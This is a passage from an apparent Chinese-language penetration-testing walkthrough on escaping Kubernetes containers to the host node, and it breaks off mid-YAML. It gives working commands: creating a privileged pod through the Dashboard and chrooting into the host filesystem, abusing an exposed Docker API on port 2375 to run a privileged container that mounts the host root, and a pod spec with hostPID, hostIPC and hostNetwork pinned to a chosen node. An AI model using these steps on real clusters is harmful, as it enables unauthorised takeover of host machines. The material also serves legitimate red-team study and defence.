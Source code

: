 成功逃逸到宿主机10.206.0.3上，执行ifconfig命令

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665632056634-9a8546d4-1363-466e-98b3-7b311cccd734.png)

### Dashboard
进入Dashboard后台，创建Pod![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665460248597-4472b223-174a-49d7-86c0-1fae4f5ddbda.png)

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665460329020-b5289d7a-23fc-468c-95b5-7afa7b6afc30.png)

```plain
cd /host && chroot ./ bash
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665460352518-25bcf87e-1413-488c-995c-fd05889b4e0b.png)

成功逃逸到宿主机Node节点上，类似API server利用方式，还可以挂载更多权限和目录。

### docker api
```plain
#docker创建高权pod 进行逃逸
docker -H tcp://10.206.0.3:2375 run -d -it --name neartest_Kubernetes_hashsubix -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/near_sandbox" --network=host --privileged=true --cap-add=ALL alpine:latest /bin/sh -c tail -f /dev/null
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665460454945-0a315868-5cce-42e4-9f34-4028184b99d8.png)

```plain
docker -H tcp://10.206.0.3:2375 exec -it 84b944c8ab71 sh
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665460473154-c6bf3b70-5462-4252-8e0f-6ab1ee607868.png)

```plain
cd /near_sandbox/
chroot ./ bash
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665460488968-4c46e3d2-87e5-44da-9c7a-7e1f69e1705b.png)

### 逃逸到特定节点
#### 节点亲和性
<font style="color:rgb(51, 51, 51);">一般情况下我们部署的 Pod 是通过集群的自动调度策略来选择节点的，默认情况下调度器考虑的是资源足够，并且负载尽量平均，但是有的时候我们希望Pod被分配到特定Node节点。使用NodeSelector可以将Pod与对应标签的Node节点进行匹配，如下示例，可以将Pod部署到hostname为</font>VM-0-3-centos的Node工作节点，从而逃逸特定Node节点

```plain
#test.yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  hostPID: true
  hostIPC: true
  hostNetwork: true
  nodeSelector:
    #kubernetes,io/hostname需先查看pod所在的节点进行修改
    #kubectl get pods -o wide
    kubernetes.io/hostname: VM-0-3-centos
  containers:
  - name: trpc
    image: "alpine"
    #imagePullPolicy: "Never"
    securityContext:
```